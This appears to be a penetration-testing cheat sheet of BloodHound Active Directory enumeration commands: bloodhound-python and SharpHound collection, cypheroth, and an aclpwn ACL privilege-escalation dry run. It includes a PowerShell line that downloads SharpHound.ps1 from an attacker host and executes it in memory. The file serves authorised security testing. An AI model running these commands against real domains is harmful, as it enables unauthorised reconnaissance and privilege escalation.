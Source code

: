 # bloodhound

% bloodhound, Active directory enumeration

## start neo4j server
#plateform/linux #target/serve #cat/UTILS
https://neo4j.com/docs/

```bash
sudo systemctl start neo4j
```

## bloodhound start IHM
#plateform/linux #target/local #cat/RECON
https://github.com/BloodHoundAD/BloodHound

```bash
bloodhound
```

## bloodhound - collect data
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c all
```

## bloodhound - collect data (dns)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -ns <ip> -d <domain> -u <user> -p <password> -c all
```

## bloodhound - collect data (alternative)
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -gc <global_catalog> -dc <domain_controler> -c all
```

## sharphound - collect bloodhound data
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
import-module sharphound.ps1
invoke-bloodhound -collectionmethod all -domain <domain>
```

## sharphound - collect bloodhound data download and execute
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## cypheroth - start
#plateform/linux #target/local #cat/RECON 
Toolset that runs cypher queries against Bloodhound's Neo4j backend and saves output to spreadsheets.

https://github.com/seajaysec/cypheroth

```bash
cypheroth -u <bh_user|neo4j> -p <bh_password|exegol4thewin> -d <domain>
```

## aclpwn - from computer to domain - dry run
#plateform/linux #target/local #cat/RECON 
Aclpwn.py is a tool that interacts with BloodHound to identify and exploit ACL based privilege escalation paths.

https://github.com/fox-it/aclpwn.py

```
aclpwn -f <computer_name> -ft computer -d <domain> -dry
```



